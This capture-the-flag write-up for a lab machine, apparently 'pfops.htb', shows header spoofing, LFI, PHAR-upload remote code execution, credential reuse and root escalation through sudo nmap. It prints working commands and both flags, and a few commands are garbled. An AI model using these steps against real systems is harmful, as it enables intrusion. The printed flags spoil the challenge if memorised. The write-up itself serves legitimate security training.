 ![](assets/images/banner.png)

<img src="assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">pfops.htb</font>

​		27<sup>th</sup> October 2024

---

### Description:

This machine takes advantage of misconfigurations in file uploads, LFI exploitation, and Linux privilege misconfigurations, simulating an environment where attackers discover credentials and escalate privileges on a simulated internal server and gain root execution sudo abuse

### Difficulty:

`easy`

### Flags:

User: `htbmeetupcmr{PH4R_LF1_2_Rc3_ch411}`

Root: `htbmeetupcmr{NM4p_2_r007_0wn4g3}`

---

# Enumeration

1. **Network Scanning**:
   - Scan the machine’s IP to identify open ports:
     ```bash
     rustscan -a 16.16.145.247 -- -sV -sC -oN scan_results 16.16.145.247.txt
     ```
   - Open Ports:
     - **Port 80 (HTTP)**: Web server with unknown host redirection
     - **Port 22 (SSH)**: Potential SSH access

2. **Host Discovery**:
   - Accessing the machine’s IP in a browser causes a redirection to **pfops.htb**.
   - Add `pfops.htb` to `/etc/hosts`:
     ```plaintext
      #htb-MEETUP
      16.16.145.247 pfops.htb
     ```

3. **Web Enumeration on pfops.htb**:
   - If you did not follow the rules and never made your requests with the correct user-agent format you get a 403 forbidden page

   - The main page on **http://pfops.htb** shows a basic landing page with no obvious functionality.

   ![alt text](image.png)

   - Fuzz directories using `ffuf` to reveal a hidden `/dev/` 
     ```bash
     ffuf -u http://pfops.htb/FUZZ -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080    
    
     ```
   - Further fuzzing in the directory reveals the **.git** folder 
   - Dump `.git` contents using `git-dumper` and inspect the files to find `.htaccess`, which lists access requirements set on the apache server.

   - Doing some subdomain enumeration reveal a dev subdomain but with a 403 forbbiden page
   - upon analysing the content of the .htaccess file
      ```plaintext
         <IfModule mod_rewrite.c>
            RewriteEngine On
            # Restrict access based on X-Forwarded-For to allow only 192.168.100.0/24
            RewriteCond %{HTTP:X-Forwarded-For} !^192\.168\.100\.[0-9]{1,3}$
            RewriteRule ^ - [F]
            # Further restrict based on custom header for dev access
            RewriteCond %{HTTP:Admins} !^Tom$
            RewriteRule ^ - [F]
         </IfModule>

      ```
      - Here the access to the dev subdomain is conditioned with a request comming from an internal host in the lan network **192.168.100.0/24** 
      - Furthermore it is restricted to a particular header **Admins: Tom** 
     ```plaintext
     X-Forwarded-For: 192.168.100.0/24
     Admins: Tom
     ```

4. **Accessing dev.pfops.htb**:
   - Add `dev.pfops.htb` to `/etc/hosts`:
     ```plaintext
     16.16.145.247 dev.pfops.htb
     ```
   - Set custom headers to gain access:
     ```plaintext
     X-Forwarded-For: 192.168.100.1
     Admins: Tom
     ```
     - You can do this with a firefow brower extension https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search 
     by simply adding all your custom headers request and all request wiil be done with these headers

   - The page reveals a file upload form to check the integrity of XML configuration files.

---

# Foothold

1. **LFI Exploitation**:
   - The `page` parameter in **dev.pfops.htb** has a hidden parameter, since the webpage is still under developement we assume it's a mistake from the Développers, to check for this hidden parameter we Fuzz and check for the actual param
     ```plaintext
     ffuf -u 'http://dev.pfops.htb/?FUZZ=index.php' -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080  -mc 500,200,403 -H 'X-Forwarded-For: 192.168.100.1' -H 'Admins: Tom' -fs 2469
      ```
     ![alt text](image-2.png)
     
     - Getting the 500 error code while trying to get the server's index page make and error since it's 500 this tell us the server tried to include himself and therefore making a infinite loop and hence the error 
     - From there we try to test for a Local file inclusion vulnerability at it workss
     
     ![alt text](image-1.png)
     
     - The actual parameter is page is vulnerable to an LFI
      ![alt text](image-3.png)

2. **Bypassing Upload Restrictions**:

   - **dev.pfops.htb** permits `.txt` uploads, which allows bypassing restrictions using a **PHAR archive**.
   - Create a PHP info function to a file, `test.php`:
   - Create a zip named **test.zip** containing the `test.php`
   - Then rename the **test.zip** to **test.txt**
     ```bash
     echo "<?php phpinfo();?> >> test.php
     zip -r test.zip test.php
     mv test.php test.txt
     ```
   - upload the file to the server 
   - Trigger the shell with the `phar://` php filter to trigger execution:
     ```plaintext
     GET /?page=phar://uploads/e3c421cb45d2fc24b3219293fa0a9386/test.txt/test.php
     ```
     ![alt text](image-4.png)
   - Hence Remote code execution 
   - We then put a revershell php and repeat the process to get a shell
     
     ![alt text](image-5.png)

---

# Lateral Movement

1. **Database Credentials**:
   - Running **ss -tulpn** shows us a list of port on which the server is listenning
   we actually see port 3306 and port 8000 we actually get a python web server.
   - navigating throught the /var/www directory reveals `internal_app` which contains a `.env` file containing database credentials:
     
   - The `.env` password grants SSH access as **tom** due to password reuse.

     ![alt text](image-6.png)

2. **SSH to tom**:
   - Log in to **tom** via SSH put ssh is restricted to public key only:
     ```bash
     ssh tom@pfops.htb
     ```
      ![alt text](image-7.png)
   - While on our rev shell we do a su tom and enter the password and we are logged as tom
   ```shell
         tom@ip-172-31-43-97:/var/www/internal_app$ id
         id
         uid=1001(tom) gid=1001(tom) groups=1001(tom)
         tom@ip-172-31-43-97:/var/www/internal_app
   ```
---

# Privilege Escalation

1. **Sudo Privilege on Nmap**:
   - The `tom` user has limited sudo access to **nmap**. 
      
      ![alt text](image-8.png)
      https://gtfobins.github.io/gtfobins/nmap/#sudo
     ```bash
      TF=$(mktemp)
      echo 'os.execute("/bin/sh")' > $TF
      sudo nmap --script=$TF
     ```
   - This command executes as root, granting full system access.

     ![alt text](image-9.png)

---
